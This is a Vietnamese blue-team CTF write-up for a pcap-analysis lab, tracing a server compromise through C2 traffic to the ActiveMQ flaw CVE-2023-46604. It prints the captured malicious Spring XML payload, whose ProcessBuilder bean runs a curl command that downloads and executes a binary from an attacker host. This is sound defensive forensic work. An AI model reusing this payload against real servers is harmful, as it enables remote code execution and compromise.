 ### Description 
> During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the pcap and assess for signs of malicious activity.

### Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/openwire/

### Solution 
- Đầu tiên mình sẽ phân tích sơ lược trước khi trả lời các câu hỏi 
- Trước khi làm được bài lab này ta phải tìm hiểu về tấn công C2 trước  

<details>
<summary>
Lý thuyết về tấn công C2 (Command and Control)
</summary>

```
Command and Control Server (C2) là một máy chủ hoặc hệ thống có nhiệm vụ định hướng, điều khiển và theo dõi các hoạt động của phần mềm độc hại hoặc các cuộc tấn công mạng. C2 được sử dụng để gửi lệnh cho phần mềm độc hại, nhận dữ liệu từ nó và thu thập thông tin từ các máy bị nhiễm mã độc.
C&C Server hoạt động như trung tâm điều khiển trong các cuộc tấn công mạng và botnet. Hacker thiết lập máy chủ này để quản lý và điều hành các máy tính nạn nhân hoặc thiết bị bị nhiễm mã độc hại. 
```
- Đầu tiên, hacker lây nhiễm mã độc hại vào các thiết bị nạn nhân thông qua các kỹ thuật khác nhau. 
- Sau khi nhiễm, các thiết bị này tự động kết nối đến C&C Server qua giao thức mạng an toàn. 
- Hacker sử dụng kết nối này để gửi lệnh và điều khiển các thiết bị nạn nhân, thực hiện các hoạt động tấn công, thu thập thông tin, hoặc thậm chí thực hiện tắt máy tính
- C&C Server thường được thiết lập để che giấu địa chỉ IP thực sự và bảo vệ bằng các biện pháp bảo mật để tránh phát hiện. Việc tìm ra và ngăn chặn C&C Servers là một phần quan trọng của an ninh mạng và quản lý rủi ro.
- ![image](https://lanit.com.vn/wp-content/uploads/2023/05/command-and-control-server-120.jpg)
- C&C là một phương thức tấn công đặc biệt xảo quyệt, bởi chỉ cần một máy tính bị nhiễm virus cũng có thể trở thành cầu nối cho phép hacker hạ gục toàn bộ hệ thống mạng nội bộ. Sau khi phần mềm độc hại xâm nhập thành công trên một máy tính bị lây nhiễm, máy chủ C&C có thể ra lệnh cho nó sao chép và tự phát tán ra các máy tính khác trong mạng — điều này có thể dễ dàng xảy ra vì mã độc về cơ bản đã vượt qua được tường lửa của mạng.

</details>

- Mở wireshark lên, tiến hành phân tích các ip có trong mạng trước 
- ![ịi](image/11.PNG)
- Có thể thấy rõ ràng quá trình truyền dữ liệu hầu hết tập trung vào 2 ip `134.209.197.3` và `146.190.21.92`
- Tiếp theo ta thấy rằng 
- ![sshsh](image/12.PNG)
- Hầu hết các trao đổi dữ liệu nó liên quan đến ip `134.209.197.3`
- Vì vậy có thể khẳng định rằng ip máy chủ C2 là `146.190.21.92`, và ip của máy chủ bị tấn công là `134.209.197.3`
- Tiếp tục phân tích thấy rằng máy chủ C2 đang khai thác thông qua cổng 61616
- ![sbsbs](image/13.PNG)
- Tại gói 11 thấy rằng ip máy victim đang GET về 1 file có tên là `/invoice.xml`
- ![image](image/14.PNG)
- Folow theo gói đó thấy rằng nó đang thực thi 1 lệnh shell `curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker`, trong đó lệnh `curl -s -o /tmp/docker http://128.199.52.72/docker` tải file về từ `http://128.199.52.72/docker` và dùng chmod +x để nâng quyền và thực thi file docker 
- Ta cũng có thể dễ dàng nhận thấy luôn rằng ip `128.199.52.72` nó đến từ mạng của attacker
```
GET /invoice.xml HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.21
Host: 146.190.21.92:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/xml
Content-Length: 816
Last-Modified: Tue, 12 Dec 2023 13:37:45 GMT

<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
- Thấy rằng tệp xml này còn gọi đến class `java.lang.ProcessBuilder` để chạy docker file 
- Tra google 1 tí sẽ thấy được đây chính là lỗ hổng `CVE-2023-46604` của cổng 61616 (ActiveMQ Classic)
